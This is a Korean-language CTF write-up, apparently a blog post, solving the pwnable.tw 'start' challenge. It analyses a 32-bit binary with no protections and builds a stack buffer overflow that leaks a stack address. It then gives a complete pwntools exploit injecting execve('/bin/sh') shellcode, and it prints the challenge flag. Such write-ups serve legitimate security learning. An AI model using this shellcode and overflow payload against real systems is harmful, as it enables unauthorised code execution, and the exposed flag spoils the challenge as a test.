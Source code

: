 ```yaml
---
layout: post
title: "[pwnable.tw] start"
date: 2018-05-25 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## Start [100 pts]
### Just a start.
### `nc chall.pwnable.tw 10000`
### [start](https://pwnable.tw/static/chall/start)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/start/01.png)
{: refdef}

32bit고 보호기법은 안 걸려있네요!

{: refdef: style="text-align: center;"}
![disassemble](/img/pwnable.tw/start/02.png)
{: refdef}

디버거로 열어 보면 `_start`밖에 없는 간단한 프로그램 입니다.

int 0x80을 사용해 함수를 호출하는데

[이 사이트](https://syscalls.kernelgrok.com)를 보면 int 0x80에서 레지스터가 어떻게 사용되는지 알 수 있어요.

```c
char buf[14] = "Let's start the CTF:"

write(1, buf, 0x14);
read(1, buf, 0x3C);
```

대충 c언어로 바꿔보면 위처럼 나오네여

- - -
# 0x01. 공격 방법

자, 이제 생각해봅시다아아

딱 봐도 bof가 가능하겠네요!

음... NX가 안걸려있으니까 쉘코드를 사용할게요.

1. 스택 주소 구하기

2. 스택에 쉘코드 삽입

3. 해당 주소로 리턴

이 순서로 공격할게요.

- - -
# 0x02. 정보 수집

## 1. 스택 주소 구하기

```asm
push "Let's start the CTF:"
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h
add esp, 14h
retn
```

`read`는 끝나면 `add esp, 14h`로 스택을 정리해주네여

그럼 `read`가 끝나고 스택도 정리한 후에 다시 `write`를 실행시키면 정리된 스택이 출력되고 다시 그 부분부터 `read`가 또 실행될거에여

호다다닥 해봅시다.

```python
from pwn import *
context.log_level = "debug"

s = remote("localhost", 4444)

s.recv()

dummy = "A"*0x14

payload = dummy
payload += p32(0x08048087)

s.send(payload)
```


>{: refdef: style="text-align: center;"}
![stack_leak](/img/pwnable.tw/start/03.png)
{: refdef}
### 누가봐도 스택처럼 생긴 `0xffae9020`이 바로 나와주네요!
### 혹시 모르니 gdb로 맞는지 확인해 봅시닷.
{: refdef: style="text-align: center;"}
![gdb_check](/img/pwnable.tw/start/04.png)
{: refdef}

- - -
# 0x03. 익스플로잇

24byte 쉘코드를 사용했습니다아아

```python
from pwn import *
context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10000

############################################

s = remote(HOST, PORT)

elf = ELF("./start")
#libc = ELF("./")
pause()

############################################

main_addr = 0x08048060
func_write = 0x08048087

shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

dummy = "A"*20

############################################

payload = dummy
payload += p32(func_write)

s.recvuntil("Let's start the CTF:")
s.send(payload)

stack_addr = u32(s.recv(4))
s.recv()
print "[*] stack_addr : " + hex(stack_addr)

payload = dummy
payload += p32(stack_addr + 0x14)
payload += shell

s.send(payload)

s.interactive()
```

### FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}